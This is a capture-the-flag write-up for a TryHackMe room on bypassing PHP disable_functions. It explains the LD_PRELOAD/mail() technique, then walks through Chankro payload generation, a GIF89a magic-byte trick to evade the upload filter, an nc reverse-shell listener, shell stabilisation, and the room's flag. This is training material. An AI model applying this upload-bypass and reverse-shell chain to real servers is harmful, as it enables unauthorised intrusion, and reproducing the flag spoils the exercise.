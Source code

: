 # Try Hack Me - Bypass Disable Functions
##### Practice bypassing disabled dangerous features that run operating system commands or start processes.

## Task 1 - Introduction 

##### What is a file upload vulnerability?

This vulnerability occurs in web applications where there is the possibility of uploading a file without being checked by a security system that curbs potential dangers.

It allows an attacker to upload files with code (scripts such as .php, .aspx and more) and run them on the same server, more information in this [room](https://tryhackme.com/room/uploadvulns).

##### Why this room?

Among the typically applied measures is disabling dangerous functions that could execute operating system commands or start processes. Functions such as system() or shell_exec() are often disabled through PHP directives defined in the php.ini configuration file. Other functions, perhaps less known as dl() (which allows you to load a PHP extension dynamically), can go unnoticed by the system administrator and not be disabled. The usual thing in an intrusion test is to list which functions are enabled in case any have been forgotten.

One of the easiest techniques to implement and not very widespread is to abuse the mail() and putenv() functionalities. This technique is not new, it was already reported to [PHP in 2008](https://bugs.php.net/bug.php?id=46741) by gat3way, but it still works to this day. Through the putenv() function, we can modify the environment variables, allowing us to assign the value we want to the variable LD_PRELOAD. Roughly LD_PRELOAD will allow us to pre-load a .so library before the rest of the libraries, so that if a program uses a function of a library (libc.so for example), it will execute the one in our library instead of the one it should. In this way, we can hijack or "hook" functions, modifying their behaviour at will.

[Chankro](https://github.com/TarlogicSecurity/Chankro): tool to evade disable_functions and open_basedir

Through Chankro, we generate a PHP script that will act as a dropper, creating on the server a .so library and the binary (a meterpreter, for example) or bash script (reverse shell, for example) that we want to execute freely, and that will later call putenv() and mail() to launch the process.

Install tool:
* git clone https://github.com/TarlogicSecurity/Chankro.git
* cd Chankro
* python2 chankro.py --help

```bash
python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html
```

* --arch = Architecture of system victim 32 o 64.
* --input = file with your payload to execute
* --output = Name of the PHP file you are going to create; this is the file you will need to upload.
* --path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads.
![](https://i.imgur.com/LdyyDOn.png)

Now, when executing the PHP script in the web server, the necessary files will be created to execute our payload.
![](https://i.imgur.com/R5enl2U.png)

My command run successfully, and I created a file in the directory with the output of the command.

Credits.

All credit goes to [Tarlogic](https://www.tarlogic.com/blog/evadir-disable_functions-open_basedir/) for the script and explaining the method of the bypass.
```
Read the above.
> No answer needed
```

## Task 2 - Reasy Set Go 

Icon made by Pixel perfect from www.flaticon.com

##### Port scan.
```bash
sudo nmap -sS -v 10.10.225.4

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

##### Scan directories.
```bash
dirb http://10.10.225.4

+ http://10.10.225.4/index.html (CODE:200|SIZE:12012)                                                                                                      
+ http://10.10.225.4/phpinfo.php (CODE:200|SIZE:68235)                                                                                                     
+ http://10.10.225.4/server-status (CODE:403|SIZE:276)                                                                                                     
==> DIRECTORY: http://10.10.225.4/uploads/   
```

##### Checkout phpinfo.php for recon
```bash
http://10.10.225.4/phpinfo.php

# Document Root
/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db 
```

##### Create payload.
```bash
python chankro.py --arch 64 --input shell.sh --output shell.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
```

##### Add to beginning of tryhackme.php, to set magic number
```bash
GIF89a;
```

##### Establish Listener
```bash
bash # On Kali
rlwrap nc -lvnp 4444
```

##### Establish Reverse Shell
```bash
http://10.10.225.4/uploads/shell.php
```

##### Stabalize Shell
```bash
which python python2 python3
python3 -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 38 / 155
fg # foreground shell
export SHELL=bash
stty rows 38 columns 155 #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

##### Navigate
ls
cd ..
ls
cd ..
ls
<.....>
cd /home
ls
s4vi
cd s4vi
ls
flag.txt

cat flag.txt
thm{bypass_d1sable_functions_1n_php}
#####


```
Compromise the machine and locate the flag.txt
> thm{bypass_d1sable_functions_1n_php}
```

## Additional Resources
https://bugs.php.net/bug.php?id=46741

https://github.com/TarlogicSecurity/Chankro

https://www.tarlogic.com/blog/evadir-disable_functions-open_basedir/